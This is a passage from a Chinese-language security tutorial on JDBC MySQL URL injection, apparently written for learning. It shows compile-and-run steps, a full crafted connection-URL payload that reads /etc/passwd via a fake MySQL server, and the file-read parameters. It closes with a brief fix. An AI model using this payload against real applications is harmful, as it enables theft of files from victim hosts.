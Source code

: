 ```java
```

下载JDBC的mysql对应版本的驱动 : `https://downloads.mysql.com/archives/c-j/`

![image-20240217183941218](https://p.ipic.vip/ze4hf6.png)

```bash
# 编译并运行程序,指定驱动路径
javac JDBCExploitDemo.java
java -cp .:mysql-connector-j-8.1.0.jar JDBCExploitDemo
```

![image-20240217185414735](https://p.ipic.vip/sqz0mn.png)

```bash
# 输入程序要求的url地址
jdbc:mysql://ip:port/test?user=fileread_/etc/passwd&allowLoadLocalInfile=true
```

**其他连接参数**

```bash
文件读取的参数
allowLoadLocalInfileInPath=/ 设置读的目录为根目录，这样所有的目录文件都可以读取
allowLoadLocalInfile=true 
allowUrlInLocalInfile=true 这两个参数类似

设置包大小参数
maxAllowedPacket=655360

完整payload可以为：
jdbc:mysql://ip:port/test?user=fileread_/etc/passwd&allowLoadLocalInfile=true&allowUrlInLocalInfile=true&allowLoadLocalInfileInPath=/&maxAllowedPacket=655360
```

**查看假mysql服务器是否读取到文件**

![image-20240217184422949](https://p.ipic.vip/vchvw7.png)

读取成功的文件会存在fake_mysql工具的同一路径下的`fake-server-files`目录中, 进去找到最新的时间戳目录, 进入查看文件

![image-20240217185028182](https://p.ipic.vip/f8l2vd.png)

**成功读取文件； 实战中大家肯定会遇到一些有限制的情况，大家可以自行再学习一些绕过的方式**

**TIPS**:

当然，实战中输入url的地方一般都长这样

![image-20240217185608623](https://p.ipic.vip/ddw5po.png)



## 修复方案

原生的场景下可以使用预先定义的Properties将URL中的属性覆盖掉，就可以关闭本地文件读取以及URL读取了。
